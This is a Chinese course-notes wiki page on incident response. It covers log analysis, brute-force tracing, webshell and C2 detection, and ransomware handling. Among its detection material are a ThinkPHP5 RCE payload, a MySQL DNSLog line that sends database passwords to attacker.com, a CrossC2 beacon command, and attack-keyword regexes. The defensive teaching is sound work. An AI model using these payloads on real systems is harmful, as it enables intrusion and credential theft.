

# XD安全渗透测试课程 Day73-75：应急响应全流程实战与工具链

## 概述

本页面整理自 XD安全渗透测试课程第 73-75 天学习笔记，系统覆盖**应急响应标准流程**、**操作系统与第三方应用入侵排查实战**、**日志分析核心技术**、**自动化工具链落地**四大板块。内容衔接 [[xd-security-pentest-basic-stage-notes]] 基础阶段 Web 攻防与 [[xd-security-pentest-course-curriculum]] 完整课程体系，形成从“漏洞利用”到“事后溯源修复”的闭环知识图谱。

---

## 一、应急响应标准流程（Day73 核心）

### 五阶段模型

| 阶段 | 核心目标 | 关键动作 |
|------|----------|----------|
| **保护** | 固化现场、防止扩散 | 物理/逻辑隔离（断网/快照/镜像）、易失性数据优先采集（内存/网络连接/进程） |
| **分析** | 还原攻击链 | 指纹库比对、日志时间线重建、后门/Rootkit 深度排查、漏洞利用痕迹研判 |
| **复现** | 验证攻击路径 | 搭建同版本环境、按攻击者 TTPs 复现、定位入口与横向移动路径 |
| **修复** | 根因消除 | 补丁修补、弱口令整改、后门清理、账号体系梳理、权限最小化 |
| **建议** | 体系加固 | 安全基线配置、日志审计完善、EDR/态势感知部署、应急预案演练、红蓝对抗常态化 |

> **实战提示**：受害方提供“明确信息”（时间点、被改文件、Webshell 路径、工具指纹）可大幅缩小排查面；若无明确信息，需按 **Web漏洞→中间件→第三方应用→操作系统→口令/后门** 全维度排查。

### 必备知识储备

- 熟练掌握常见 Web 攻击技术（SQLi、XSS、文件上传、反序列化、SSRF、RCE 等），参考 [[xd-security-pentest-basic-stage-notes]] 与 [[attack-defense-world-beginner-web-writeup]]、[[attack-defense-world-master-advanced-writeup]]、[[buuctf-web-writeup-collection]]、[[pikachu-target-writeup-part1-setup-brute-force]] 至 [[pikachu-target-writeup-part5]] 实战库
- 精通 Windows Event Log / Linux `/var/log` / 数据库审计日志的**启用策略、存储路径、字段语义、常见攻击特征**
- 掌握日志聚合与分析平台：ELK、Splunk、360星图（仅支持 Apache/IIS/Nginx）、FileSeek、GScan 等

---

## 二、日志分析实战：Windows / Linux / 数据库（Day73-75）

### Windows + IIS + SQL Server 日志溯源

1. **IIS 日志定位**：`%SystemDrive%\inetpub\logs\LogFiles\W3SVC<SiteID>\`，按站点 ID 区分
2. **关键字段**：`date time s-ip cs-method cs-uri-stem cs-uri-query sc-status sc-substatus sc-win32-status time-taken`
3. **攻击指纹识别**：
   - SQL 注入：`%27`、`union select`、`waitfor delay`、`xp_cmdshell`、`load_file`、`into outfile`
   - 命令执行：`cmd.exe`、`powershell`、`whoami`、`net user`、`certutil`、`bitsadmin`
   - 文件上传：`.asp`、`.aspx`、`.php`、`.jsp` 后缀配合 `Content-Type: image/jpeg` 绕过，参考 [[php-webshell-fundamentals-chopper-analysis]]、[[burpsuite-basics-tutorial]] Content-Type 伪造技巧
4. **工具辅助**：360星图（需配置 `conf`）、Log Parser Studio、LogonTracer（详见 4.1）

### Linux + 宝塔 + Nginx + ThinkPHP5 日志排查

1. **宝塔面板日志导出**：网站 → 设置 → 日志 → 下载至本地
2. **Nginx 访问日志关键列**：`$remote_addr - $remote_user [$time_local] "$request" $status $body_bytes_sent "$http_referer" "$http_user_agent"`
3. **ThinkPHP5 RCE 指纹**：`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`，结合 [[gkctf-2021-web-writeup]] babycat 题目 XMLDecoder/Gson 绕过链
4. **宝塔自带后门查杀**：网站 → 安全 → 木马查杀，配合人工复核

### 数据库审计日志深度分析

#### MySQL 通用日志

```sql
SHOW VARIABLES LIKE "%general%";
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

- **暴力破解特征**：短时间内大量 `Connect Access denied for user 'root'@'IP'`，配合 [[ctfshow-web-info-gathering-brute-force]] 爆破字典特征
- **SQL 注入特征**：`union select`、`sleep()`、`benchmark()`、`load_file()`、`into outfile`、报错注入 `extractvalue()`/`updatexml()`/`floor(rand(0)*2)`，参考 [[mysql-duplicate-entry-error-based-sqli]]、[[mysql-dnslog-injection-loadfile-unc]]、[[ctfshow-web-sql-injection-bypass-basics]]
- **DNSLog 外带**：`load_file(CONCAT('\\\\',(SELECT password FROM mysql.user LIMIT 1),'.attacker.com\\abc'))`，需 `secure_file_priv=''` 且 Windows 环境

#### MSSQL 跟踪文件

- 通过 SQL Server Profiler / 系统存储过程 `sp_trace_create` 配置跟踪
- 关注 `RPC:Completed`、`SQL:BatchCompleted` 事件中的 `TextData` 字段
- 典型攻击：`xp_cmdshell` 开启、`sp_oacreate`/`sp_oamethod` COM 对象执行命令、链接服务器攻击

#### Oracle 审计

```sql
AUDIT SELECT TABLE, INSERT TABLE, UPDATE TABLE, DELETE TABLE BY ACCESS;
AUDIT CREATE SESSION BY ACCESS;
```
- 审计表 `DBA_AUDIT_TRAIL` / `USER_AUDIT_TRAIL` 记录 `ACTION_NAME`、`OBJ_NAME`、`SQL_TEXT`、`CLIENT_ID`、`OS_USERNAME`

---

## 三、操作系统入侵排查实战（Day74）

### 暴力破解溯源

#### Windows RDP (3389)

- **审核策略**：本地安全策略 → 审核登录事件（成功/失败）
- **关键事件 ID**：
  - `4624` 登录成功（Type 10=RDP，Type 3=网络）
  - `4625` 登录失败（SubStatus `0xC000006A`=密码错误，`0xC0000064`=用户不存在）
  - `4776` NTLM 认证尝试（域控）
- **工具**：`LogParser`、`EventLog Explorer`、[[named-pipe-smb-detection-sysmon]] Sysmon Event ID 10/11/12/13 进程/网络/注册表/文件创建关联

#### Linux SSH (22)

```bash
# 统计失败次数
grep -o "Failed password" /var/log/secure | uniq -c

# 时间范围
grep "Failed password" /var/log/secure | head -1
grep "Failed password" /var/log/secure | tail -1

# 攻击 IP TOP
grep "Failed password" /var/log/secure | grep -Eo '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' | uniq -c | sort -nr

# 爆破用户名字典
grep "Failed password" /var/log/secure | perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}' | uniq -c | sort -nr

# 成功登录
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
```

> 关联 [[lm-ntlm-hash-generation-analysis]] 理解 NTLM 认证流程，[[mimikatz-source-code-architecture-golden-ticket-audit]] 掌握凭证导出与黄金票据利用链。

### 后门与木马排查

#### Webshell 多维检测

| 维度 | 检测手法 | 关联页面 |
|------|----------|----------|
| **静态特征** | YARA 规则、敏感函数 `eval/assert/system/passthru/shell_exec/proc_open/popen/curl_exec`、Base64/十六进制/混淆编码熵值分析 | [[php-webshell-fundamentals-chopper-analysis]]、[[php-webshell-obfuscation-av-evasion]] |
| **动态行为** | RASP/IAST 监控 `execve`/`CreateProcess` 子进程、异常网络连接、文件落地 | [[phantom-dll-hollowing-technique]]、[[pe-manual-mapping-loader-implementation]] |
| **流量侧写** | HTTP POST 无 Referer、User-Agent 异常、Cookie 含密码参数、心跳包固定间隔 | [[c2-redirectors-malleable-c2-profiles]]、[[cobalt-strike-external-c2-smb-beacon]]、[[smb-named-pipe-c2-communication]] |
| **文件完整性** | 核心目录 `/var/www/html`、`C:\inetpub\wwwroot` 定时哈希对比、inotifywait 实时监控 | — |

#### PC 木马 / CrossC2 / Geacon 实战溯源

- **CrossC2**：Cobalt Strike 外部 C2 规范的 Go 实现，生成 Linux/macOS Beacon，通信走 HTTPS/HTTP/SMB Named Pipe
  - 部署：`./genCrossC2.Linux <CS_IP> <Port> <Profile> <Key> Linux x64 C2`
  - 排查：`netstat -ntulp`、`ss -antlp` 发现异常监听/外联，结合 [[cobalt-strike-external-c2-smb-beacon]]、[[covenant-c2-framework-analysis]]、[[frp内网渗透应用]]、[[internal-network-pivoting-techniques]] 理解隧道与代理链路
- **Geacon**：Go 编写的 Cobalt Strike 兼容 Beacon，支持 HTTP/DNS/SMB 通信
- **检测要点**：
  - 进程树异常：`nginx`/`php-fpm`/`java` 启动 `bash`/`sh`/`python`/`curl`/`wget`
  - 内存特征：`VirtualAlloc`+`RWX`、`CreateThread`、`NtCreateThreadEx`、反射加载 PE
  - 网络特征：定时心跳、证书自签名、JA3 指纹固定、Malleable Profile 特征（参考 [[c2-redirectors-malleable-c2-profiles]]）
  - 主机层：Sysmon Event ID 1/3/7/8/10/11/12/13/15/17/18/19/20/21/22 全维度覆盖

### 勒索病毒应急处置（WannaCry 为例）

1. **现象确认**：文件后缀 `.wncry`、桌面 `@Please_Read_Me@.txt` 勒索信息、端口 445 异常外联、进程 `tasksche.exe`/`mssecsvc.exe`、`C:\Windows\qeriuwjhrf` 等随机名
2. **遏制**：立即断网、隔离受感染网段、关闭 445/139/3389 端口
3. **溯源**：
   - 永恒之蓝 (MS17-010) 利用链：`SMBv1` 协议漏洞 → `DoublePulsar` 后门植入 → `WannaCry` 投递
   - 日志：System 事件 ID 7045 服务安装、Security 4624/4625 匿名登录、防火墙日志 445 端口扫描
4. **恢复**：
   - 360/火绒/卡巴斯基专用解密工具：<https://lesuobingdu.360.cn/>、<https://www.nomoreransom.org/zh/index.html>
   - 影子副本恢复：`vssadmin list shadows`、`wbadmin`、第三方工具 ShadowExplorer
   - 备份恢复：离线冷备优先，验证备份未被加密
5. **加固**：
   - 补丁：KB4012598 (MS17-010)
   - 关闭 SMBv1：`Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`
   - 组策略限制 `taskschd`/`wmic`/`powershell` 执行、AppLocker 白名单、EDR 开启防篡改

---

## 四、第三方应用与漏洞自查体系（Day75）

### Windows 日志可视化溯源：LogonTracer

**架构**：Neo4j 图数据库 + Python 解析 EVTX + Web GUI 交互展示

| 步骤 | 命令/操作 |
|------|-----------|
| 1. 部署 Neo4j | `git clone https://github.com/neo4j/neo4j` → 修改 `dbms.connector.bolt.listen_address=0.0.0.0:7687` → `./bin/neo4j console &` |
| 2. 安装依赖 | `sudo yum install java-11-openjdk -y` → `pip3 install -r requirements.txt` |
| 3. 克隆工程 | `git clone https://github.com/JPCERTCC/LogonTracer.git` |
| 4. 导入日志 | `python3 logontracer.py -e <evtx_file> -z <时区> -u neo4j -p <password> -s <neo4j_ip>` |
| 5. 实时分析 | `python3 logontracer.py -r -o <PORT> -u neo4j -p <password> -s <neo4j_ip>` |
| 6. Web 访问 | `http://<IP>:<PORT>` 查看账号-IP-时间-登录类型图谱，快速定位横向移动、黄金票据、Pass-the-Hash |

> 结合 [[mimikatz-source-code-architecture-golden-ticket-audit]] 理解 Kerberos 委派攻击在图谱中的表现。

### 系统漏洞自查工具链

| 平台 | 工具 | 核心能力 | 典型用法 |
|------|------|----------|----------|
| **Windows** | **WindowsVulnScan** | 基于 KB 补丁号离线匹配 CVE，支持 `cve-check.py -C -f KB.json` | `systeminfo > info.txt` → 导出补丁列表 `wmic qfe list full /format:csv > KB.csv` → 转 JSON → 扫描 |
| **Linux** | **linux-exploit-suggester** | 内核版本/发行版匹配 Exploit-DB/CVE，输出可用提权漏洞及利用代码链接 | `./linux-exploit-suggester.sh --kernel $(uname -r) --distro $(lsb_release -is)` |
| **Linux** | **LinEnum** | 全自动枚举：内核/发行版/SUID/SGID/cron/sudoers/网络/进程/服务/历史命令/密码文件/容器特征 | `./LinEnum.sh -t -k keyword -r report -e /tmp/` |

> 交叉验证：[[linux-kernel-hardening-mechanisms]] 了解缓解措施对利用链的影响，[[race-condition-vulnerability-analysis]] 关注竞争条件类提权。

### 服务/中间件漏洞自查

1. **资产清单获取**
   - Windows：`Get-WmiObject -class Win32_Product`、注册表 `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall`
   - Linux：`dpkg -l` / `rpm -qa`、进程端口 `ss -antlp`、systemd `systemctl list-units --type=service`
2. **漏洞检索**：
   - `searchsploit <service_name> [--cve CVE-ID]` 离线 Exploit-DB
   - 在线：CVE Details、NVD、CNNVD、CNVD、漏洞库平台（奇安信/360/阿里云/腾讯云）
   - 关注：WebLogic (CVE-2020-14882/CVE-2019-2725)、Tomcat (CVE-2020-1938 AJP)、Struts2 (S2-057/S2-059)、Jenkins (CVE-2024-23897)、Exchange (ProxyLogon/ProxyShell)、FortiSSL VPN (CVE-2018-13379)、Log4j2 (CVE-2021-44228)
3. **验证与修复**：搭建隔离环境复现 → 评估影响面 → 补丁/配置加固/虚拟补丁(WAF/RASP) → 回归测试

### 自动化应急工具箱：ir-rescue

**GitHub**：<https://github.com/diogo-fernan/ir-rescue>

- **定位**：跨平台（Windows/Linux/macOS）应急响应证据采集自动化框架
- **核心模块**：
  - `ir-rescue.exe` / `ir-rescue`：交互式菜单，按类别采集（易失性/非易失性/全量）
  - 支持输出：JSON/CSV/Bodyfile (TSK) / 摘要报告
  - 集成工具：`Volatility`/`Rekall` (内存)、`KAPE`/`MFTECmd`/`EvtxECmd`/`AppCompatCacheParser`/`RegistryExplorer`/`AmcacheParser`/`SrumECmd` (Windows 制品)、`log2timeline`/`Plaso` (超级时间线)
- **实战模式**：
  - 快速分级：`ir-rescue --triage` (仅易失性数据，<5min)
  - 全量取证：`ir-rescue --full` (含磁盘镜像、内存镜像、注册表、事件日志、MFT、USN Journal、Prefetch、Shimcache、Amcache、SRUM、WMI、Tasks、LNK/JumpList、浏览器历史记录、邮件、容器/虚拟机镜像)
  - 自定义：`ir-rescue --config custom.yaml` 适配合规基线

> 配合 [[cybersecurity-interview-guide-2022]] 应急响应面试题库，构建“工具+流程+实战”三位一体能力模型。

---

## 五、知识图谱与交叉引用导航



### 核心技术页面索引

| 领域 | 代表页面 | 关键词 |
|------|----------|--------|
| **Web 攻防基础** | [[xd-security-pentest-basic-stage-notes]]、[[attack-defense-world-beginner-web-writeup]]、[[pikachu-target-writeup-part1-setup-brute-force]] | SQLi、XSS、文件上传、RCE、SSRF、反序列化 |
| **Web 进阶实战** | [[attack-defense-world-master-advanced-writeup]]、[[buuctf-web-writeup-collection]]、[[gkctf-2021-web-writeup]] | ThinkPHP5、Java反序列化、Node.js原型链污染、SSTI、Git泄露 |
| **内网渗透与 C2** | [[internal-network-pivoting-techniques]]、[[cobalt-strike-external-c2-smb-beacon]]、[[covenant-c2-framework-analysis]]、[[c2-redirectors-malleable-c2-profiles]] | SMB Beacon、HTTP/SMB/DNS 隧道、重定向器、Malleable Profile |
| **Windows 内核与凭证** | [[windows-syscall-internals-sysenter-kifastcallentry]]、[[mimikatz-source-code-architecture-golden-ticket-audit]]、[[lm-ntlm-hash-generation-analysis]]、[[pe-manual-mapping-loader-implementation]] | 系统调用、Kerberos、NTLM、手动映射、模块隐藏 |
| **Linux 提权与内核** | [[linux-kernel-hardening-mechanisms]]、[[heap-overflow-principles-unlink-exploitation]]、[[rop-linux-x86-beginner-tutorial]] | 缓解措施、堆利用、ROP、内核漏洞 |
| **二进制逆向与混淆** | [[binary-ninja-ollvm-deobfuscation]]、[[ida-pro-tips-plugins-python]]、[[android-shelling-unshelling-techniques]]、[[game-reverse-engineering-course-materials]] | OLLVM去平坦化、FLIRT签名、Android加固脱壳、游戏逆向 |
| **CTF 实战库** | [[buuctf-pwn-writeup-collection]]、[[mtctf-2021-pwn-writeup]]、[[xihulunjian-2020-iot-pwn3-ezarmpwn-writeup]]、[[d3ctf-2021-d3dev-qemu-escape-writeup]]、[[google-ctf-2021-full-chain-v8-exploitation]] | PWN、IoT、VM Escape、V8 JIT、浏览器利用链 |
| **硬件与无线** | [[0w1club-hardware-atlas]]、[[badusb-hid-attack-arduino-leonardo]]、[[0w1club-week2-wifi-hijacking-arp-spoofing]]、[[ettercap-arp-mitm-practical-guide]] | Proxmark3、Ubertooth、BadUSB、ARP欺骗、中间人攻击 |
| **密码学与编码** | [[crypto-basics-xor-stream-cipher-tutorial]]、[[jwt漏洞原理与实战利用]]、[[0w1club-training-shellshock-cgi-exploitation]] | XOR/流密码、JWT算法混淆、Shellshock、Dirty COW |

---

## 六、实战清单速查表

### 应急响应现场取证清单（前 30 分钟）

| 优先级 | 数据源 | 采集命令/工具 | 保存路径建议 |
|--------|--------|---------------|--------------|
| P0 | 内存镜像 | `winpmem_mini_x64_rc2.exe -o memory.raw` / `LiME.ko` | `/evidence/memory/` |
| P0 | 网络连接 | `netstat -ano` / `ss -antlp` / `Get-NetTCPConnection` | `/evidence/volatile/netstat.txt` |
| P0 | 进程列表 | `tasklist /v` / `ps auxww` / `Get-Process \| fl *` | `/evidence/volatile/process.txt` |
| P0 | 登录会话 | `query user` / `who` / `w` / `Get-CimInstance Win32_LoggedOnUser` | `/evidence/volatile/session.txt` |
| P0 | 计划任务 | `schtasks /query /fo LIST /v` / `crontab -l` / `systemctl list-timers` | `/evidence/volatile/tasks.txt` |
| P0 | 启动项/服务 | `wmic startup get caption,command` / `systemctl list-unit-files --state=enabled` / `autorunsc.exe -accepteula -a *` | `/evidence/volatile/startup.txt` |
| P1 | 安全日志 | `wevtutil epl Security security.evtx` / `cp /var/log/secure /evidence/logs/` | `/evidence/logs/` |
| P1 | 系统/应用日志 | `wevtutil epl System system.evtx` / `cp /var/log/syslog /evidence/logs/` | `/evidence/logs/` |
| P1 | 注册表关键键值 | `reg export HKLM\SYSTEM\CurrentControlSet\Services system_services.reg` / `reg export HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run run.reg` | `/evidence/registry/` |
| P1 | MFT / USN Journal | `MFTECmd.exe -f C:\$MFT --csv ./mft.csv` / `USNParser.exe -f C:\$Extend\$UsnJrnl:$J` | `/evidence/filesystem/` |
| P2 | 浏览器/邮件制品 | `BrowserHistoryView.exe` / `NirSoft` 套件 | `/evidence/user/` |
| P2 | 容器/虚拟机镜像 | `docker save` / `virsh snapshot-create-as` | `/evidence/vm/` |

### 日志分析常用正则/关键词库

```text
# Web 攻击通用
(\bunion\b.*\bselect\b)|(\bselect\b.*\bunion\b)|(\binsert\b.*\binto\b)|(\bupdate\b.*\bset\b)|(\bdelete\b.*\bfrom\b)|(\bdrop\b.*\btable\b)|(\bcreate\b.*\btable\b)|(\balter\b.*\btable\b)|(\bexec\b|\bexecute\b)|(\bxp_cmdshell\b)|(\bsp_oacreate\b)|(\bload_file\b)|(\binto\s+outfile\b)|(\bbase64\b)|(\beval\b|\bassert\b|\bsystem\b|\bpassthru\b|\bshell_exec\b|\bproc_open\b|\bpopen\b|\bcurl_exec\b)|(\bchmod\b|\bchown\b)|(\bwget\b|\bcurl\b|\bcertutil\b|\bbitsadmin\b|\bpowershell\b|\bcmd\.exe\b)

# 弱口令/爆破
Failed password|Authentication failure|Invalid user|Connection closed by authenticating user|error: PAM:|error: Failed to allocate internet-domain X11 display socket

# Webshell 行为
POST.*\.php.*eval|POST.*\.jsp.*Runtime\.getRuntime|POST.*\.asp.*execute|POST.*\.aspx.*Process\.Start|Content-Type:.*application/octet-stream.*filename=.*\.(php|jsp|asp|aspx)

# 勒索病毒
\.wncry|\.locked|\.encrypted|\.crypted|\.crypt|\.locked|\.rsa|\.aes|@Please_Read_Me@|README_DECRYPT|DECRYPT_INSTRUCTION|HOW_TO_DECRYPT|_readme\.txt|\.onion

# 横向移动
psexec|wmic|winrs|winrm|sc create|schtasks /create|at \\\\|reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run|Invoke-Command|Enter-PSSession|New-PSSession|Copy-Item -ToSession|smbexec|wmiexec|atexec|dcomexec
```

---

## 七、持续更新与贡献指南

1. **版本控制**：本页面随 XD安全课程进度与社区工具迭代持续更新，建议每季度复核工具版本（GScan/ir-rescue/LogonTracer/LES/LinEnum/WindowsVulnScan）
2. **实战反馈**：实战中遇到新攻击变种、新工具指纹、新日志字段，请通过 Issue/PR 补充至对应章节
3. **交叉引用维护**：新增技术页面时，在“知识图谱与交叉引用导航”表格中同步添加，保持图谱完整性
4. **合规提醒**：所有技术仅限授权环境下的防御、溯源、演练使用，严禁用于未授权渗透测试或恶意攻击

---

> **页面定位**：本页面作为 XD安全渗透测试课程 **应急响应模块** 的结构化知识沉淀，兼顾“流程标准化”、“技术细节落地”、“工具链工程化”三个维度，配合全站 100+ 技术页面形成可检索、可复用、可进化的安全知识库。

## 来源

- [0x00实验室-202108-202304_085](../sources/0x00实验室-202108-202304_085.md)
